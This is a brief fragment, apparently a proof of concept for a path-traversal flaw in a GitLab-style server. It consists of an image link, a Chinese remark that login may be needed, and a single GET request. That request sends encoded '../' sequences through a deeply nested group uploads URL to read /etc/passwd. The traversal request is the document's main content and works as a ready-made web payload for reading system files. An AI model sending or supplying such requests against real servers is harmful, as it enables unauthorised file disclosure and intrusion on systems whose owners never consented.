 可能需要登录

GET /group1/group2/group3/group4/group5/group6/group7/group8/group9/project9/uploads/4e02c376ac758e162ec674399741e38d//..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd